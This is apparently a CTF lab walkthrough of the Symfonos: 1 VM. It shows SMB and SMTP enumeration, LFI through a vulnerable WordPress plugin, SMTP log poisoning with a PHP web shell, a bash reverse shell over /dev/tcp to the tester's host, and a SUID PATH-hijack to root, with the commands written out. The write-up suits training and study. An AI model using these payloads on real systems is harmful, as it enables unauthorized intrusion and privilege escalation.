Symfonos: 1
This walkthrough demonstrates a full penetration testing methodology: from initial enumeration and credential harvesting to exploiting a Local File Inclusion (LFI), gaining remote code execution via SMTP log poisoning, and finally escalating to root through a clever PATH hijacking vulnerability.
🎯 Executive Abstract
The Problem: Organizations often leave "low priority" services like SMB and SMTP misconfigured, assuming they pose no real threat. This machine proved otherwise.
The Approach: Rather than forcing an attack through the obvious web server, I pivoted through seemingly unrelated services—SMB leaks, SMTP user enumeration, and a forgotten WordPress plugin—to build a complete attack chain.
The Outcome: Full root compromise in under 90 minutes. What could have been dismissed as "just an internal VM" demonstrated how seemingly minor misconfigurations (anonymous SMB share, outdated plugin, relative PATH in SUID binary) create a cascading failure path.
Business Value: This methodology—enumerate everything, trust nothing, think sideways—directly translates to real-world engagements. The time saved by not brute-forcing or running blind scans? Hours per assessment. The cost of a real breach prevented by catching these misconfigurations? Priceless.
Key Lesson: The most elegant exploit chains don't use zero-days. They use your own misconfigurations against you.
🔍 Phase 1: Reconnaissance
Initial nmap scan revealed critical services: SSH (22), SMTP (25), HTTP (80), and SMB (139/445). The presence of SMB and SMTP alongside a basic web server suggested a misconfiguration-based attack path rather than web application exploitation.
nmap -sC -sV -p- 192.168.56.108
Figure 1: Nmap scan revealing SMB, SMTP, and HTTP services.
Figure 2: Initial web page — static image, no interactive content.
Since the web server offered no obvious attack surface, focus shifted to SMB enumeration.
📁 Phase 2: Service Enumeration
SMB Share Discovery
smbclient -L //192.168.56.108/The anonymous share was accessible without credentials. Inside, a file named attention.txt was found, revealing weak passwords (epidioko, qwerty, baseball) and referencing a user named Helios.

Figure 3: SMB leak — password hints and user mention.
SMTP User Enumeration
The SMTP VRFY command confirmed the user helios exists on the system, giving us a valid username to pair with our password candidates.
telnet 192.168.56.108 25
VRFY helios
252 2.0.0 heliosCredential Validation
Using the password baseball, we gained authenticated SMB access to the helios share. A file todo.txt pointed to a hidden directory: /h3l105.

Figure 4: Clue to WordPress location.

Figure 5: WordPress 5.2.2 installation.
📝 Phase 3: WordPress Enumeration & LFI
WPScan Enumeration
A wpscan against the WordPress installation revealed outdated plugins, including Site Editor 1.1.1 (vulnerable to CVE-2018-7422 — Local File Inclusion).
wpscan --url http://symfonos.local/h3l105 --enumerate p
Figure 6: WPScan identifying vulnerable Site Editor plugin.
Local File Inclusion (LFI) Verification
The vulnerable endpoint allowed reading /etc/passwd, confirming LFI:
http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
Figure 7: LFI successfully reading /etc/passwd.
⚡ Phase 4: Remote Code Execution
With LFI confirmed, the next step was to achieve Remote Code Execution. The presence of SMTP (port 25) allowed us to inject PHP code into the mail log file /var/mail/helios and include it via LFI.
Injecting PHP Shell via Telnet (SMTP)
telnet symfonos.local 25
mail from: test@test.test
rcpt to: helios@symfonos.localdomain
data
<?php system($_GET['c']); ?>
.
quit
Figure 8: SMTP log poisoning — injecting PHP code into mail spool.
Executing Commands via LFI
Including the poisoned log file allowed command execution:
http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios&c=idOutput: uid=1000(helios) gid=1000(helios) → RCE confirmed.
Reverse Shell
A Netcat listener was started, and a bash reverse shell payload was URL-encoded and executed through the LFI endpoint:
nc -nlvp 8888
http://symfonos.local/...?ajax_path=/var/mail/helios&c=/bin/bash -c 'bash -i >%26 /dev/tcp/192.168.56.1/8888 0>%261'
Figure 9: Successful reverse shell as user helios.
Shell Stabilization
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
reset
export TERM=xterm👑 Phase 5: Privilege Escalation
Running sudo -l showed no sudo rights, but a SUID binary caught attention: /opt/statuscheck.
find / -perm -4000 2>/dev/null
/opt/statuscheckAnalyzing the SUID Binary
Executing it printed HTTP/1.1 200 OK. Using strings revealed it calls curl without an absolute path — perfect for a PATH hijack.
strings /opt/statuscheck
curl -I http://localhost
Figure 10: /opt/statuscheck calls curl with relative path.
PATH Hijack Exploit
echo 'chmod u+s /bin/bash' > /tmp/curl
chmod +x /tmp/curl
export PATH=/tmp:$PATH
/opt/statuscheck
Figure 11: PATH hijack in action.
Root Shell Obtained
bash -p
id
uid=0(root) gid=1000(helios) euid=0(root)
Figure 12: Root access achieved.
🏁 Conclusion & Key Takeaways
- Never trust default configurations: Anonymous SMB shares and outdated WordPress plugins led to the initial breach.
- Think sideways: SMTP log poisoning turned an LFI into full RCE.
- Privilege escalation is creative: PATH hijacking on a SUID binary is a common but often-missed vector.
- Methodology wins: Enumerate everything — services, files, hidden directories, and SUID binaries.

Figure 13: Final root flag confirmation.